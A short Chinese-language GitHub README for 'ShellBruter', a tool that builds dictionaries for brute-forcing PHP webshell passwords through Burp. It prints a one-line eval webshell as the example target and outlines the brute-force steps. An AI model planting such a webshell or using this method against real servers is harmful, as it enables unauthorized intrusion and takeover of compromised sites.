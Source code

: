 # ShellBruter
WebShell高效爆破字典生成

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/0.png)

爆破思路参考：

https://www.t00ls.net/thread-36985-1-1.html 

这里不继续用python写请求的原因是感觉让burp处理这些会更好（懒）

使用示例：

假设当前shell为：

```php
<?php @eval($_POST[a]);?>
```

1）burp加载生成的爆破字典

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/1.png)

2）关闭URL编码（很重要）

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/2.png)

3）得到结果

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/3.png)

![](https://raw.githubusercontent.com/r00tSe7en/pictures/master/2020.03.23/4.png)

此方法可灵活使用，其余可自由发挥。
